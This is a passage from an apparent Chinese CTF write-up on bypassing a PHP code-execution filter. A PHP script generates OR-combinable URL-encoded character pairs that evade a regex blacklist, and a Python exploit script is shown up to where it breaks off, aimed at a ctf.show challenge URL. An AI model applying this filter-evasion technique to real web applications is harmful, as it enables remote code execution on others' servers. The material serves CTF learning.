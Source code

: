 ```php
      $hex_j='0'.dechex($j);
    }
    else{
      $hex_j=dechex($j);
    }
    $preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
    //hex2bin() 函数把十六进制值的字符串转换为字符,2位为1组

    if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
      echo "";
    }
    else{
      $a='%'.$hex_i;
      $b='%'.$hex_j;
      $c=(urldecode($a)|urldecode($b));
      //   ord返回ASCII码值
      if(ord($c)>=32&ord($c)<=126){
        $contents = $contents.$c." ".$a." ".$b."\n";
      }
    }
  }
}
fwrite($myfile,$contents);
fclose($myfile);

// $a='%01';
// $b='%40';//这个是字符的16进制AsCII码值+%
// echo urldecode($a).PHP_EOL;
// echo urldecode($b).PHP_EOL;
// $c=(urldecode($a)|urldecode($b));
// echo $c;
?>
```

- urlencode就是%加上字符的16进制AsCII码值

#### exp脚本

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
# os.system("php a.php")  # 没有将php写入环境变量需手动运行
# if (len(argv) != 2):  # argv是命令行参数
#     print("="*50)
#     print('USER：python exp.py <url>')
#     print("eg：  python exp.py http://ctf.show/")
#     print("="*50)
#     exit(0)
url = "http://6a1d4bda-b460-46e2-aea2-86d8ca7954b1.challenge.ctf.show/"


def action(arg):
    s1 = ""
    s2 = ""
    output = ""
    for i in arg:
        f = open("rce_xor_1.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
```